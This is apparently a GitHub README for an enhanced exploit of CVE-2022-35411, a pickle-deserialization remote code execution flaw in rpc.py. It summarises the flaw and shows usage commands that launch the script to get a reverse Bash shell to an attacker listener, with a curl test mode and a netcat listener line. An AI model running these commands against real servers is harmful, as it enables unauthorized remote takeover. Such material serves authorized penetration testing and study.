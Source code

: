 # rpc.py RCE Exploit (CVE-2022-35411)

This is an updated and improved exploit for **CVE-2022-35411**, targeting vulnerable versions of [rpc.py](https://github.com/abersheeran/rpc.py) (`<= 0.6.0`).  
It allows **unauthenticated remote code execution (RCE)** via Python `pickle` deserialization.

> **Original exploit by**: [Elias Hohl](https://github.com/eliashohl)  
> **Enhanced by**: [x7331](https://github.com/x7331) for usability, portability, and automation

---

## Vulnerability Summary

The vulnerability lies in rpc.py's unsafe usage of Python's `pickle` module, allowing crafted payloads to execute arbitrary commands **without authentication**.

- **CVE ID**: [CVE-2022-35411](https://nvd.nist.gov/vuln/detail/CVE-2022-35411)
- **Affected Versions**: rpc.py `v0.4.2` – `v0.6.0`
- **Exploit Type**: Unauthenticated Remote Code Execution (RCE)

---

## Changes

- ✅ Switched to `argparse` with `--lhost`, `--lport`, `--target`, and `--dry-run` flags
- ✅ Clean, modular code structure
- ✅ Optional reverse shell delivery (TCP Bash)
- ✅ Curl test payload (safe mode)
- ✅ Logging support and cleaner output
- ✅ Proper usage guidance via `-h` / `--help`
- ✅ Metadata and inline comments for clarity

---

## Usage

### Reverse Shell Example
```bash
python3 rpc-rce.py --lhost 10.10.14.1 --lport 9001
```
### Dry Run (no shell, just curl test)
```bash
python3 rpc-rce.py --lhost 10.10.14.1 --lport 9001 --dry-run
```
### Custom Target (optional)
```bash
python3 rpc-rce.py --lhost 10.10.14.1 --lport 9001 --target http://victim.internal:65432/sayhi
```
## Requirements
- Python `3.x`
- `requests` library (install with pip install requests)
- A listener on your LHOST (e.g., `nc -lvnp 9001`)
- Vulnerable rpc.py server running

## Legal & Ethical Notice
This exploit is provided for educational and authorized testing purposes only.
Do NOT use it on systems you do not own or lack explicit permission to test.
